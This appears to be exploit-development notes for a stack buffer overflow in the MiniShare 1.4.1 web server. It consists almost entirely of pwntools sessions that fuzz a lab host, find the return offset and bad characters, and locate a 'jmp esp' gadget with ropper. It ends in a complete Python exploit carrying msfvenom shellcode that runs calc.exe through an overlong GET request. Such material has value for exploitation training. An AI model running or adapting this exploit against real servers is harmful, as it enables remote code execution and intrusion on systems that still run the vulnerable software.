







# MiniShare 1.4.1

```py
In [1]: r = remote('192.168.122.187', 80)
   ...: r.write('GET ' + 'A'*2000 + ' HTTP/1.1\r\n\r\n')
   ...: 
[x] Opening connection to 192.168.122.187 on port 80
[x] Opening connection to 192.168.122.187 on port 80: Trying 192.168.122.187
[+] Opening connection to 192.168.122.187 on port 80: Done
```





```py
In [2]: r = remote('192.168.122.187', 80)
   ...: r.write(b'GET ' + cyclic(2000) + b' HTTP/1.1\r\n\r\n')
   ...: 
[x] Opening connection to 192.168.122.187 on port 80
[x] Opening connection to 192.168.122.187 on port 80: Trying 192.168.122.187
[+] Opening connection to 192.168.122.187 on port 80: Done
```





```py
In [3]: cyclic_find(0x61617772)
Out[3]: 1787
```

```py
In [6]: r = remote('192.168.122.187', 80)
   ...: r.write(b'GET ' + b'A'*1787 + b'BBBB' + bytes(range(1, 256)) + b' HTTP/1.1\r\n\r\n')
   ...: 
[x] Opening connection to 192.168.122.187 on port 80
[x] Opening connection to 192.168.122.187 on port 80: Trying 192.168.122.187
[+] Opening connection to 192.168.122.187 on port 80: Done
```



```py
In [7]: r = remote('192.168.122.187', 80)
   ...: chars = bytes([i for i in range(1, 256) if i not in [0x00, 0x0d]])
   ...: r.write(b'GET ' + b'A'*1787 + b'BBBB' + chars + b' HTTP/1.1\r\n\r\n')
   ...: 
[x] Opening connection to 192.168.122.187 on port 80
[x] Opening connection to 192.168.122.187 on port 80: Trying 192.168.122.187
[+] Opening connection to 192.168.122.187 on port 80: Done
```



```
$ ropper -f ./shell32.dll --search 'jmp esp' -I 0x75860000
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp esp

[INFO] File: ./shell32.dll
0x74ff6c28: jmp esp;
```

```py
#!/usr/bin/env python3

from pwn import *


pad = b'A' * 1787

# 0x74ff6c28: jmp esp;
ret = p32(0x75860000 + 0x6c28)

nop = b'\x90' * 64

# msfvenom -p windows/exec -b '\x00\x0d' -f py CMD=calc.exe
buf =  b""
buf += b"\xba\x87\x2d\x18\x37\xda\xc2\xd9\x74\x24\xf4\x5f\x33"
buf += b"\xc9\xb1\x31\x31\x57\x13\x03\x57\x13\x83\xc7\x83\xcf"
buf += b"\xed\xcb\x63\x8d\x0e\x34\x73\xf2\x87\xd1\x42\x32\xf3"
buf += b"\x92\xf4\x82\x77\xf6\xf8\x69\xd5\xe3\x8b\x1c\xf2\x04"
buf += b"\x3c\xaa\x24\x2a\xbd\x87\x15\x2d\x3d\xda\x49\x8d\x7c"
buf += b"\x15\x9c\xcc\xb9\x48\x6d\x9c\x12\x06\xc0\x31\x17\x52"
buf += b"\xd9\xba\x6b\x72\x59\x5e\x3b\x75\x48\xf1\x30\x2c\x4a"
buf += b"\xf3\x95\x44\xc3\xeb\xfa\x61\x9d\x80\xc8\x1e\x1c\x41"
buf += b"\x01\xde\xb3\xac\xae\x2d\xcd\xe9\x08\xce\xb8\x03\x6b"
buf += b"\x73\xbb\xd7\x16\xaf\x4e\xcc\xb0\x24\xe8\x28\x41\xe8"
buf += b"\x6f\xba\x4d\x45\xfb\xe4\x51\x58\x28\x9f\x6d\xd1\xcf"
buf += b"\x70\xe4\xa1\xeb\x54\xad\x72\x95\xcd\x0b\xd4\xaa\x0e"
buf += b"\xf4\x89\x0e\x44\x18\xdd\x22\x07\x76\x20\xb0\x3d\x34"
buf += b"\x22\xca\x3d\x68\x4b\xfb\xb6\xe7\x0c\x04\x1d\x4c\xe2"
buf += b"\x4e\x3c\xe4\x6b\x17\xd4\xb5\xf1\xa8\x02\xf9\x0f\x2b"
buf += b"\xa7\x81\xeb\x33\xc2\x84\xb0\xf3\x3e\xf4\xa9\x91\x40"
buf += b"\xab\xca\xb3\x22\x2a\x59\x5f\x8b\xc9\xd9\xfa\xd3"

payload = pad + ret + nop + buf

r = remote('192.168.122.187', 80)
r.write(b'GET ' + payload + b' HTTP/1.1\r\n\r\n')
```



